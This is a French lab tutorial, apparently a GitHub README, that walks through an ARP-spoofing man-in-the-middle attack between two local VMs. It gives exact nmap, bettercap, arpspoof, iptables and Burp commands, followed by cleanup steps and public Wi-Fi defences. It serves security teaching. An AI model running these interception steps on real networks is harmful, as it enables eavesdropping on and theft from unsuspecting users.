










# MITM Attack Scenario Hacker à la défense

© 2025 Virginie Lechene - Tous droits réservés  
Reproduction interdite sans autorisation préalable.  
Usage pédagogique uniquement.  

*Image protégée – Propriété exclusive*

---

# MITM Attack

##  Objectif
Montrer, dans un environnement **100% local**, comment un attaquant placé dans un lieu public (gare, aéroport, café…) pourrait intercepter le trafic d’une victime via **ARP spoofing**.

⚠️ **Légal / éthique** : ne jamais appliquer hors d’un labo dont vous contrôlez l'environnement.
Ce guide est destiné à l’**apprentissage/défense** et au **pentest autorisé uniquement**.

---

## Table des matières

1. [Introduction](#introduction)
2. [Prérequis techniques](#prérequis-techniques)
3. [Logiciels utiles](#logiciels-utiles-côté-parrot)
4. [Paramétrage VirtualBox](#paramétrage-virtualbox)
5. [Configuration IP & tests LAN](#configuration-ip--tests-lan)
6. [Découverte réseau (Nmap)](#découverte-réseau-nmap)
7. [Transformer Parrot en routeur NAT](#transformer-parrot-en-routeur-nat)
8. [Observation du trafic (tcpdump / Wireshark)](#observation-du-trafic-tcpdump--wireshark)
9. [Attaque MITM](#attaque-mitm-bettercap-ou-arpspoof)
10. [Proxy / Burp](#option-proxyburp-http)
11. [Nettoyage complet](#nettoyage-complet-des-machines)
12. [Bonnes pratiques Wi-Fi public](#se-protéger-sur-un-wi-fi-public)
13. [Résumé & Conclusion](#résumé-express)
	
---

##  Contexte : "hacker en lieu public"

Dans un **aéroport** ou un **café**, un attaquant peut se placer entre les clients et Internet :

- créer un faux hotspot ou s’insérer dans un réseau existant,
- empoisonner la table ARP (MITM) pour que la victime envoie son trafic à l’attaquant,
- observer ou modifier le trafic non chiffré (HTTP, DNS, etc.).

👉 Dans ce projet, nous reproduisons ces techniques **dans un labo local** afin d'apprendre à les comprendre et à s’en proteger.

---

## Prérequis techniques

- VirtualBox 7.x ou supérieur
- 2 VM : Parrot OS (attaquant), Debian (victime)
- RAM : 2 Go minimum par VM
- CPU : 2 cœurs conseillés

---

##  Guide rapide

1. Importer les 2 VM (Parrot & Debian) dans VirtualBox.  
2. Configurer les interfaces réseau (Parrot NAT + LAB, Debian LAB).  
3. Lancer les VMs.  
4. Suivre le scénario pas à pas → depuis la section [Configuration IP & tests LAN](#configuration-ip--tests-lan).  

---

##  Architecture du labo & prérequis  

### VMs  

**Parrot OS (attaquant)**  
- NIC1 : NAT (sortie Internet de la VM) → enp0s8 (ex. 10.0.3.15/24)  
- NIC2 : Réseau interne (LAB) → enp0s3  

**Debian (victime)**  
- NIC1 : Réseau interne (LAB) → enp0s3  

---

###  Plan d’adressage (réseau interne LAB)  
- Parrot (enp0s3) : 192.168.100.20/24  
- Debian (enp0s3) : 192.168.100.10/24  
- Passerelle "vue par Debian" : 192.168.100.20 (Parrot)  

---

### Logiciels utiles (côté Parrot)  
- nmap  
- bettercap (ou dsniff/arpspoof)  
- tcpdump  
- wireshark  
- iptables  

---

##  Paramétrage VirtualBox  

**Parrot → Paramètres > Réseau**  
- Carte 1 : NAT  
- Carte 2 : Réseau interne → Nom : LAB  

**Debian → Paramètres > Réseau**  
- Carte 1 : Réseau interne → Nom : LAB  

➡️ Lancez ensuite les deux VMs.  

---

## 🔢 Configuration IP & tests LAN  

### Parrot (root)  
ip addr add 192.168.100.20/24 dev enp0s3   
ip link set enp0s3 up    
ip -br a  

### Debian (root)  
ip addr add 192.168.100.10/24 dev enp0s3   
ip link set enp0s3 up   
ip -br a

## 🔢 Configuration IP & tests LAN

<table>
<tr>
<td align="center"><b>Parrot (attaquant)</b> 

</td>
<td align="center"><b>Debian (victime)</b> 

</td>
</tr>
</table>

---

### ✅ Tests LAN  
Depuis Debian :  

ping 192.168.100.20

Depuis Parrot :  
ping 192.168.100.10

✔️ Réponses reçues = réseau interne OK  

**Tests ping**

---

## 🔎 Découverte réseau (Nmap)  

Sur Parrot :  
nmap -sn 192.168.100.0/24

Résultat attendu :  
- 192.168.100.10 (Debian)  
- 192.168.100.20 (Parrot)

## 🔎 Découverte réseau (Nmap)

## 🔁 Transformer Parrot en routeur NAT  

### Sur Parrot (root)  

Activer le routage IPv4 (temporaire) :  

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -A POSTROUTING -o enp0s8 -j MASQUERADE

---

## 🌐 Configurer la victime pour sortir sur Internet via Parrot  

### Sur Debian (root)  

Définir Parrot comme passerelle par défaut :  
ip route add default via 192.168.100.20 dev enp0s3

Configurer un DNS (temporaire, pour le TP) :  

ping -c 3 8.8.8.8   # doit répondre
ping -c 3 google.com   # doit répondre si DNS OK

---

## Observation du trafic (tcpdump / Wireshark)

 tcpdump (rapide)

bash
tcpdump -i enp0s3 ou pour DNS uniquement
tcpdump -i enp0s3 port 53

### Wireshark 

Lancer Wireshark sur Parrot → interface enp0s3 (réseau LAB).

Filtres utiles (dans la barre de filtre d’affichage) :

dns → requêtes DNS

icmp → pings

 http → HTTP en clair

ip.addr == 192.168.100.10 → trafic de la victime

💡 Vous pouvez aussi ouvrir le fichier /root/capture.pcap généré par Bettercap pour l’analyser directement.

### 👀 Observation du trafic (tcpdump / Wireshark)

- 📸 tcpdump  
  
[Voir en grand](./senarioTCP.PNG)

**Wireshark**

---

## 🕵️ Attaque MITM (Bettercap ou arpspoof)  

### Option A - Bettercap *(recommandé)*  

Sur Parrot :  
bettercap -iface enp0s3

Dans la console bettercap :  
net.recon on
net.show

set arp.spoof.targets 192.168.100.10
arp.spoof on

set net.sniff.output /root/capture.pcap
net.sniff on

arpspoof -i enp0s3 -t 192.168.100.10 192.168.100.1
arpspoof -i enp0s3 -t 192.168.100.1 192.168.100.10

ℹ️ Ici `192.168.100.1` représente la “passerelle” vue par la victime.  
👉 Dans notre montage, où Parrot **est déjà la passerelle**, il est plus simple et plus sûr d’utiliser **Bettercap**.  

📸 Exemple d’exécution :

---

### 🧪 Option : Proxy/Burp (HTTP)

> **Note :** Intercepter du trafic HTTPS exige la gestion de certificats (CA Burp).
> Pour ce TP, on garde simple → uniquement HTTP.

---

#### ⚙️ Configuration Burp (attaquant - Parrot)
- **Proxy > Proxy Listeners** : écouter sur `192.168.100.20:8080`

#### ⚙️ Configuration Firefox (victime - Debian)
- **Paramètres réseau** → Configuration manuelle du proxy
- HTTP Proxy : `192.168.100.20`
- Port : `8080`
- (Option) Cochez *Utiliser également ce proxy pour HTTPS* seulement si vous avez installé la CA.
Sinon, gardez-le uniquement pour les tests HTTP.

#### 🔎 Test
1. Dans Burp → `Proxy > Intercept` : **Intercept is on**
2. Depuis Debian → ouvrez un site HTTP comme :
👉 `http://example.com`
3. Les requêtes doivent apparaître dans Burp.

➡️ Si rien n’apparaît :
- Vérifiez IP et port.
- Assurez-vous que l’écouteur Burp est actif.
- Confirmez que Firefox n’est pas réglé sur "Pas de proxy".

---

### 🧹 Nettoyage complet des machines

Debian (victime)

-  Supprimer la route par défaut (via Parrot) :
ip route del default  

- (Facultatif) Enlever l’IP labo si configurée manuellement :
ip addr del 192.168.100.10/24 dev enp0s3  

- Purger le cache ARP :
ip neigh flush all  

-  Redémarrer proprement l’interface :
ip link set enp0s3 down && ip link set enp0s3 up  

- (Option) Rétablir /etc/resolv.conf :
printf 'nameserver 1.1.1.1\n' > /etc/resolv.conf  

- Vérifications :
ip -br a
ip route

---

Parrot (attaquant)

- Stopper Bettercap / arpspoof / tcpdump / Wireshark :
- pkill -9 bettercap arpspoof tcpdump wireshark 2>/dev/null

- Désactiver le routage :
- echo 0 > /proc/sys/net/ipv4/ip_forward  

- Supprimer la règle NAT :
- iptables -t nat -D POSTROUTING -o enp0s8 -j MASQUERADE  

- Purger ARP et cache des routes :
- ip neigh flush all
- ip route flush cache  

- (Facultatif) Enlever l’IP labo si configurée manuellement :
- ip addr del 192.168.100.20/24 dev enp0s3 2>/dev/null  

- Redémarrer proprement l’interface :  
- ip link set enp0s3 down && ip link set enp0s3 up

- Vérifications :  
- ip -br a
- iptables -t nat -S | grep POSTROUTING || echo "NAT nettoyé ✅

---

## Se protéger sur un Wi-Fi public

### 🔒 Bonnes pratiques utilisateur
- ☑️ **Utiliser un VPN** → chiffre tout le trafic même si le Wi-Fi est compromis.
- ☑️ **Éviter les réseaux ouverts** (sans mot de passe WPA2/WPA3).
- ☑️ **Désactiver la connexion automatique** aux anciens hotspots enregistrés.
- ☑️ **Ne jamais installer de certificats inconnus** (ex. si une page vous demande d’accepter un certificat → à fuir !).
- ☑️ **Privilégier 4G/5G** pour les opérations sensibles (banque, achats).
- ☑️ **Vérifier les certificats dans le navigateur** (alerte = stop immédiat).
- ☑️ **Désactiver le partage de fichiers** (Windows / macOS → couper “Partage réseau”).

---

###  Côté administrateur (Wi-Fi public)
- Configurer le Wi-Fi avec **WPA2-Enterprise / WPA3** (éviter l’ouvert sans mot de passe).
- Mettre en place une **segmentation VLAN** (isolation client-à-client).
- Activer **Dynamic ARP Inspection (DAI)** et **Port Security** sur l’infra réseau.
- Surveiller le réseau avec un **IDS/IPS** (détection ARP spoof, DNS falsifiés).

---

###  Résumé express
- 🔗 VPN obligatoire
-  Éviter les réseaux ouverts
- 🔐 WPA2/WPA3 + isolation clients
-  Pas de certificats douteux
-  Si doute → passer en 4G/5G
	
---

### 🔒 Conclusion - Attaques MITM et scénario Wi-Fi public

Le scénario présenté illustre une attaque **MITM en environnement de type Wi-Fi public**, où l’attaquant peut se positionner entre la victime et la passerelle pour intercepter, modifier ou bloquer le trafic.

Mais il existe **plusieurs variantes d’attaques MITM** :
- **ARP spoofing / ARP poisoning** → redirection du trafic sur un réseau local (comme dans ce TP).
- **DNS spoofing** → réponse DNS falsifiée pour rediriger la victime vers un site frauduleux.
- **HTTPS downgrade** → forcer la victime à utiliser un protocole HTTP non sécurisé.
- **Evil Twin (faux Wi-Fi public)** → l’attaquant crée un hotspot Wi-Fi piégé pour capter le trafic des utilisateurs.
- **Proxy transparent / interception SSL** → manipulation via un proxy ou un faux certificat.

👉 Dans notre cas, le scénario est centré sur **l’usage d’un Wi-Fi public vulnérable**, un cas d'usage très courant pour ce type d’attaque.
 
---

✍️ Auteur : *Virginie Lechene*

---

## Licence
Le script est publié sous la licence MIT.

## À propos de l’usage
Ce projet est destiné exclusivement à des fins pédagogiques, notamment dans le cadre de :
- d’une formation en cybersécurité,
- de tests d’intrusion légaux (pentest),
- d’analyses réseau dans un environnement contrôlé.

⚠️ L’auteure ne cautionne ni n’autorise l’utilisation de ce script en dehors d’un cadre légal strictement défini.
Toute utilisation non conforme est interdite et relève uniquement de la responsabilité de l’utilisateur.

## Droits sur les visuels
Les visuels, illustrations ou captures présents dans ce dépôt sont la propriété exclusive de l’auteure.
Toute reproduction ou utilisation non autorisée est interdite.

